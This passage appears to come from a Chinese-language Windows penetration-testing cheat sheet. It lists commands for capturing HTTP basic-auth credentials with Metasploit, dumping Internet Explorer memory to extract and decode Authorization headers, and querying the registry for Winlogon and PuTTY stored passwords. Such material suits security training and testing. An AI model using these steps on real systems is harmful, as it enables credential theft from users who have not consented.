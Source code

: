 In Metasploit (msf > prompt) 输入: `use auxiliary/server/capture/http_basic`

In Metasploit (msf > prompt) 输入: `set uripath x`

In Metasploit (msf > prompt) 输入: `run`

2.

在taskmgr中，右键单击“Image Name”栏中的“iexplore.exe”

并从弹出菜单中选择“创建转储文件”.

3.

`strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`

选择复制 Base64 [编码字符串](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=2&q=%E7%BC%96%E7%A0%81%E5%AD%97%E7%AC%A6%E4%B8%B2&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiLnvJbnoIHlrZfnrKbkuLIiLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoyMzY2MjM2MDAsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MiwiemRfdG9rZW4iOm51bGx9.1pBvnLjR04UK-Hywyy5LYaK44CMDk_kR6VF1e_mqtFM&zhida_source=entity).

在命令提示符下键入: `echo -ne [Base64 String] | base64 -d`

### **Password Mining in Registry**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

打开命令并输入:

`[reg query](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=reg+query&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJyZWcgcXVlcnkiLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoyMzY2MjM2MDAsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MSwiemRfdG9rZW4iOm51bGx9.wtjF6uU8jnrVxooRLTdR5Y73eJI0g3323aMdsa8kb4Y&zhida_source=entity) “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon” /v DefaultUsername`

在命令提示符下键入:

`reg query “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon” /v DefaultPassword`

请注意输出中的凭据

在命令提示符下键入:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyUsername`

在命令提示符下键入:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyPassword`

1.  注意输出中的凭据
